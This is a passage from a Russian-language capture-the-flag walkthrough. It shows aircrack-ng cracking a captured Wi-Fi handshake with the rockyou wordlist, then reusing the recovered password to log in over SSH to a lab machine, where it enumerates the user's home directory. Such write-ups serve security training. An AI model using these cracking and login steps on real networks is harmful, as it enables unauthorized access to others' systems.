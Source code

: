 После чего запускаем aircrack-ng уже непосредственно для взлома пароля сетки `Too_cl0se_to_th3_Sun`:
```text
root@kali:~# aircrack-ng -e 'Too_cl0se_to_th3_Sun' -w /usr/share/wordlists/rockyou.txt captured.cap
...
[00:20:20] 5305860/9822768 keys tested (4398.83 k/s)

      Time left: 17 minutes, 7 seconds                          54.02%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48

      Transient Key  : 46 7D FD D8 1A E5 1A 98 50 C8 DD 13 26 E7 32 7C
                       DE E7 77 4E 83 03 D9 24 74 81 30 84 AD AD F8 10
                       21 62 1F 60 15 02 0C 5C 1C 84 60 FA 34 DE C0 4F
                       35 F6 4F 03 A2 0F 8F 6F 5E 20 05 27 E1 73 E0 73

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
...
```

На сей процесс на Kali-виртуалке ушло около получаса.

Дальше "guessing" техникой или методологией "научного тыка в сферического коня в вакууме" определяем, что `icarus:Too_cl0se_to_th3_Sun` — креды для подключения к машине по 2222-му SSH порту (имя пользователя пришлось и вправду **угадывать**: как видишь, оказалось, что пароль от Wi-Fi'я лишь *содержал* имя пользователя, а не *являлся* им :neutral_face:).

# SSH — Порт 2222
```text
root@kali:~# sshpass -p 'Too_cl0se_to_th3_Sun' ssh -oStrictHostKeyChecking=no -p 2222 icarus@10.10.10.83
icarus@620b296204a3:~$ whoami
icarus

icarus@620b296204a3:~$ id
uid=1000(icarus) gid=1000(icarus) groups=1000(icarus)

icarus@620b296204a3:~$ uname -a
Linux 620b296204a3 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) x86_64 x86_64 x86_64 GNU/Linux

icarus@620b296204a3:~$ ls -la
total 32
drwxr-xr-x 1 icarus icarus 4096 Apr 15 21:50 .
drwxr-xr-x 1 root   root   4096 Apr  8 11:59 ..
-rw------- 1 icarus icarus   33 Apr 15 16:47 .bash_history
-rw-r--r-- 1 icarus icarus  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 icarus icarus 3771 Aug 31  2015 .bashrc
drwx------ 2 icarus icarus 4096 Apr 15 16:44 .cache
-rw-r--r-- 1 icarus icarus  655 May 16  2017 .profile
-rw-r--r-- 1 root   root     85 Apr 15 21:50 help_of_the_gods.txt
```
